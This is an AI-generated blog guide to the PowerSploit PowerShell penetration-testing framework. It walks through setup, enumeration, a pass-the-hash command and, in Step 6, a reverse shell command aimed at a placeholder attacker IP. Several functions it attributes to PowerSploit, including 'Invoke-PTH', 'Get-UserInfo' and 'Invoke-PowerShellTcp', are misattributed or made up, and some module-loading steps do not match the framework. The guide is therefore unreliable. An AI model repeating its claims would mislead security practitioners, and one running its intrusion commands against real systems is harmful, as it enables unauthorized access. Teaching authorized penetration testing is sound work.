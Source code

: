 ```yaml
---
date: 2024-10-24
title: PowerSploit
type: AI Generated
topic: Pentesting
---
```


https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon

"PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment. PowerSploit is comprised of the following modules and scripts:"

# A Step-by-Step Guide to Using PowerSploit for Penetration Testing

PowerSploit is a powerful collection of PowerShell scripts that can be used for various penetration testing tasks, including information gathering, exploitation, and post-exploitation. This guide will walk you through the steps to effectively use PowerSploit in your security assessments.

## What is PowerSploit?

PowerSploit is an open-source framework designed for offensive security professionals. It provides a suite of tools that can be used to automate tasks and enhance the capabilities of penetration testers. The framework is particularly useful for engagements involving Windows environments, as it leverages PowerShell, a powerful scripting language built into Windows.

## Prerequisites

Before you start using PowerSploit, ensure you have the following:

- **Windows Operating System**: PowerSploit is designed for Windows environments.
- **PowerShell**: Make sure you have PowerShell installed (it comes pre-installed on Windows).
- **Execution Policy**: You may need to set your PowerShell execution policy to allow script execution. You can do this by running PowerShell as an administrator and executing:
  ```powershell
  Set-ExecutionPolicy RemoteSigned
  ```

## Step 1: Download PowerSploit

1. **Clone the Repository**: Open PowerShell and navigate to the directory where you want to download PowerSploit. Use the following command to clone the repository from GitHub:
   ```powershell
   git clone https://github.com/PowerShellMafia/PowerSploit.git
   ```

2. **Navigate to the Directory**: Change to the PowerSploit directory:
   ```powershell
   cd PowerSploit
   ```

## Step 2: Load PowerSploit Modules

PowerSploit consists of several modules, each serving different purposes. You can load specific modules as needed. For example, to load the `Exfiltration` module, use the following command:

```powershell
Import-Module .\Exfiltration\Exfiltration.ps1
```

You can also load all modules at once by running:

```powershell
Get-ChildItem -Path .\* -Recurse -Include *.ps1 | ForEach-Object { . $_.FullName }
```

## Step 3: Explore Available Commands

Once the modules are loaded, you can explore the available commands. Use the `Get-Command` cmdlet to list all the functions available in PowerSploit:

```powershell
Get-Command -Module PowerSploit
```

## Step 4: Conduct Information Gathering

PowerSploit provides various functions for information gathering. For example, to gather information about the current user, you can use:

```powershell
Get-UserInfo
```

To enumerate local users, you can run:

```powershell
Get-LocalUser
```

## Step 5: Exploitation Techniques

PowerSploit includes several exploitation techniques. For example, if you want to perform a pass-the-hash attack, you can use the `Invoke-PTH` command:

```powershell
Invoke-PTH -Username "user" -Domain "domain" -Hash "hash"
```

Make sure to replace `"user"`, `"domain"`, and `"hash"` with the appropriate values.

## Step 6: Post-Exploitation

After successfully exploiting a target, you may want to maintain access or gather more information. PowerSploit provides several post-exploitation tools. For example, to create a reverse shell, you can use:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress "attacker_ip" -Port "attacker_port"
```

Replace `"attacker_ip"` and `"attacker_port"` with your attacker's IP address and port number.

## Step 7: Clean Up

After completing your testing, it’s important to clean up any artifacts left on the target system. You can use PowerSploit to remove any scripts or tools you deployed during your assessment.

## Conclusion

PowerSploit is a versatile tool that can significantly enhance your penetration testing efforts. By following the steps outlined in this guide, you can effectively utilize PowerSploit for various tasks, from information gathering to exploitation and post-exploitation activities. Always remember to use these tools responsibly and only in environments where you have explicit permission to conduct testing.

### Disclaimer

This guide is intended for educational purposes only. Ensure you have proper authorization before conducting any penetration testing activities. Misuse of these tools can lead to legal consequences. Always adhere to ethical hacking practices.

---
<div style="text-align: center;">
	<div class="gradient-text">👾 2024 rabb1th0les (Chris A)dams 👾</div> 
	🌴☀Thanks for supporting my page ☀🌴
	<nav>
		<ul style="list-style: none; padding: 0;">
			<div style="text-align: center;">
				<li><a href="index.html">Home</a> | <a href="Contact.html">Contact</a></li>
			</div>
		</ul>
	</nav>	
</div>